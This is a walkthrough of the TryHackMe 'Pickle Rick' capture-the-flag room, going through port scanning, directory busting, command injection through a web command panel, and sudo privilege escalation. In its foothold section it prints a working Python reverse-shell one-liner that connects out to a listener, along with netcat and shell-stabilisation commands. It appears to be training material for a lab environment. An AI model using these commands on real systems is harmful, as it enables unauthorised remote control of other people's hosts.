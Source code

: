 ```yaml
---
title: TryHackMe Pickle Rick
date: 2024-03-09 00:00:00 +0800
categories: [TryHackMe, Challenge]
tags: [walkthough,write-ups]     # TAG names should always be lowercase
image:
    path: https://tryhackme-images.s3.amazonaws.com/room-icons/47d2d3ade1795f81a155d0aca6e4da96.jpeg
---
```

A Rick and Morty CTF. Help turn Rick back into a human! Know basic network service exploitation and linux command line.

## **Reconnaissance**

```bash
nmap -sC -sV -p- $TARGET_IP --open
```
`-sV`: Enables version detection, which attempts to determine the version of services running on open ports.

`-sC`: Enables default script scanning, executing a set of scripts to discover additional information and potential vulnerabilities.

`-p-`: Scans all 65,535 TCP ports, allowing for thorough port enumeration.

`TARGET_IP`: Specifies the target IP address.

`--open`: Shows only open ports in the output, filtering out closed and filtered ports.


```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-04 02:33 EST
Nmap scan report for 10.10.22.145
Host is up (0.31s latency).
Not shown: 65531 closed tcp ports (reset), 2 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a4:5b:39:c3:e5:48:9d:dd:d1:61:8a:33:57:10:2b:82 (RSA)
|   256 a4:d4:00:71:84:6c:ff:08:3d:d5:b0:b6:b9:04:7a:9b (ECDSA)
|_  256 c6:0a:68:60:ad:2b:ae:88:d0:3d:4c:a6:1c:99:70:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
Based on the Nmap scan results, the target system has two open ports with the following services.
- Port 22/tcp: OpenSSH 7.2p2 running on Ubuntu Linux.
- Port 80/tcp: Apache HTTP Server 2.4.18 running on Ubuntu.

## **Insights**
---
- 80 HTTP
    - Web server is running, we can try accessing that.
	- There is a public facing website with an Apache HTTP Server with a `version 2.4.18` running on `Ubuntu`

- 22 SSH
    - We need some credentials to access this and bruteforcing can take a really long time before the credentials can be cracked. Hence, this is the least of our priorities for pentesting.

## **Enumeration**
---

### 80 HTTP

Before anything else, let us first check how the website looks like.

![Desktop View](/assets/images/pickle-rick/webpage.png){: width="972" height="589" }

Inspecting the source code gave us something helpful!

![Desktop View](/assets/images/pickle-rick/page-source.png){: width="972" height="589" }
> Username: R1ckRul3s
{: .prompt-tip }
Now let us scan what other directories this website can give using **`gobuster`**

```bash
gobuster dir -u $TARGET_IP -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t20
```
**`-w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`**: Specifies the wordlist (dictionary) file to use for directory and file names.

**`-t 20`**: Sets the number of concurrent threads to 30, which means it will perform 30 requests simultaneously.

```text
/assets               (Status: 301) [Size: 313] [--> http://10.10.18.137/assets/]
/server-status        (Status: 403) [Size: 300]
```
Looks like we have some interesting directories here.

![Desktop View](/assets/images/pickle-rick/assets-page.png){: width="972" height="589" }

The `/assets ` can be significant as it might allow users to execute the uploaded file on the server. Or maybe what's interesting is that we have a `portal.jpg`which tell us there could be some sort of login form especially we got some username.

![Desktop View](/assets/images/pickle-rick/server-stats.png){: width="972" height="589" }

The `/server-status` seems to be inaccessible

How about `FILE Busting`?

```bash
gobuster dir -u $URL -w /opt/SecLists/Discovery/Web-Content/raft-medium-files.txt -k -t 30
```

```text
/login.php            (Status: 200) [Size: 882]
/index.html           (Status: 200) [Size: 1062]
/robots.txt           (Status: 200) [Size: 17]
/.                    (Status: 200) [Size: 1062]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]
```
In this web server enumeration, two interesting endpoints stand out for further exploration `/robots.txt` and `/login.php`. 

![Desktop View](/assets/images/pickle-rick/robots.png){: width="972" height="589" }

`/robots.txt` file is often used by website administrators to give instructions to web crawlers and bots about which pages or directories they should or shouldn't access.

![Desktop View](/assets/images/pickle-rick/login.png){: width="972" height="589" }

`/login.php` endpoint appears to be a login page that we can use to possibly login using credentials we have found from robots.txt and source code.


## **Gaining an Initial Foothold**

Upon logging in, it looks like we can execute some linux command on the command panel. You can try entering all the linux commands you like and see if it is working. This is called `Command injection`, a security vulnerability that occurs when an attacker is able to inject and execute arbitrary commands or code within an application's system command execution function. 

This vulnerability typically arises due to insufficient input validation or improper handling of user-controlled data by the application.

See <https://owasp.org/www-community/attacks/Command_Injection>

It looks like the `cat` Linux command is not functioning. Maybe try using other alternatives that has a similar function. I tried searching for an alternative. See <https://linuxhandbook.com/view-file-linux/>


![Desktop View](/assets/images/pickle-rick/first.png){: width="972" height="589" }

> Do not forget to find first ingredient
{: .prompt-danger }

Alternatively, we are also able to get a reverse shell from the command panel to get a more robust control over the target machine. But first, let’s us check if there is a python binary installed on the system.

```bash
which python
or
which python3
```
![Desktop View](/assets/images/pickle-rick/python3.png){: width="972" height="589" }

As we can see python3 is installed, which means we can be able to get a python reverse shell. On the command panel, we can enter:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
> Do not forget to change the IP and port
{: .prompt-warning }

Before entering the command on the panel, setup a netcat listener to catch a reverse-shell 

```bash
nc -lnvp <PORT>
```

Upon entering, you should catch a reverse shell by now from the netcat listener we have established earlier.

![Desktop View](/assets/images/pickle-rick/revshell.png){: width="972" height="589" }

This is a dumb shell and we have to stabilise it to have a more beautiful and functional shell.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
OR
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='clear -lsaht --color=auto'

Ctrl + Z [Background Process]
stty raw -echo ; fg ; reset
stty columns 200 rows 200
```
![Desktop View](/assets/images/rootme/stable-shell.png){: width="972" height="589" }

Thanks to S1REN! <https://sirensecurity.io/blog/break-out-get-that-tty/>

> Do not forget to find the second ingredient
{: .prompt-warning }



## **Privilege Escalation**

I initially checked `sudo -l` command to list the permissions granted to the current user in the sudoers file.

We found that the permissions granted to the user `www-data` on the system has `(ALL) NOPASSWD: ALL` which means that the user `www-data` is allowed to run any command `(ALL)` with `sudo` privileges without being prompted for a password `(NOPASSWD)`.

Technically, this means that `www-data` can execute any command with elevated privileges without needing to enter a password, just like the `root user`.

![Desktop View](/assets/images/pickle-rick/def-priv.png){: width="972" height="589" }

> Do not forget to find the FINAL INGREDIENT
{: .prompt-danger }

## TAKE AWAY CONCEPTS
- Try using alternative linux commands
- Try file busting to find possible directories.
- Always check the sudo privilege before attempting for privilege escalation
- Try finding a vulnerability on the web application first before bruteforcing SSH.